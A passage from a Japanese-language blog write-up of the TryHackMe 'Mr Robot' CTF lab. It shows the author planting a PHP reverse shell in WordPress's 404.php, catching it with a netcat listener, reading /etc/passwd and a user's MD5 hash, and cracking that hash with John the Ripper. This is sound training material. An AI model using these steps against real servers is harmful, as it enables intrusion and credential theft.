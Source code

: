 ファイルの中身で「CHANGE THIS」とコメントされている箇所が2か所あるので、そこを変更します。 `$ip(自分のローカルマシンのIP)` と `$PORT(適当に12345)` を設定し、保存します。編集したプログラム全体をべろっとコピーして、`404.php` を更新します。`File edited successfully.` と出て無事に更新完了です。

ローカルマシン で別タブを開き、 port 12345 で Listen しておきます（`nc -lnvp 12345`）。その状態で、ブラウザで `/404.php` にアクセスすると... WordPress サーバのシェルを取得できました！（`whoami` で daemon と出てますね）

<img src="/images/2024/20241030a/MrRobotCTF_shell.png" alt="MrRobotCTF_shell.png" width="1200" height="429" loading="lazy">

`cat /etc/passwd` で他にどのようなユーザがいるのか調べます。`robot` というユーザは問題名からしても気になりますね。

```sh
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
(中略)
mysql:x:1001:1001::/home/mysql:
varnish:x:999:999::/home/varnish:
robot:x:1002:1002::/home/robot:
```

robot に探りを入れてみると、2つ目の key を発見しました。しかし、key の参照権限はファイル所有者の robot しかないようです。

```sh
$ ls -l /home/robot/
total 8
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
```

でも `password.raw-md5` という気になる名前をしたファイルは、その他のユーザにも参照権限があるようです。

```sh
$ cat /home/robot/password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

MD5 とはハッシュ関数の１つで、128bitのハッシュ値を生成します。しかし、MD5 には比較的簡単にハッシュ衝突を計算できるという脆弱性があり、安全性の観点から暗号化には利用されません。

このようなパスワードの解読には `JohnTheRipper` というツールが使えます。`password.raw-md5` の中身を `md5.txt` というファイルに保存して、 JohnTheRipper で解読してみると、一瞬でパスワードを取得できました。

```sh
┌──(kali㉿kali)-[~/tryhackme/MrRobotCTF]
└─$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt md5.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefghijklmnopqrstuvwxyz (robot)     
1g 0:00:00:00 DONE (2024-10-27 22:21) 10.00g/s 405120p/s 405120c/s 405120C/s bonjour1..123092
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

robot ユーザでログインを試みます。が、terminal から実行してねと怒られました（シェルを取得した際にも、tty にアクセスできないと出てましたね）。

```sh
$ su - robot
su: must be run from a terminal
```
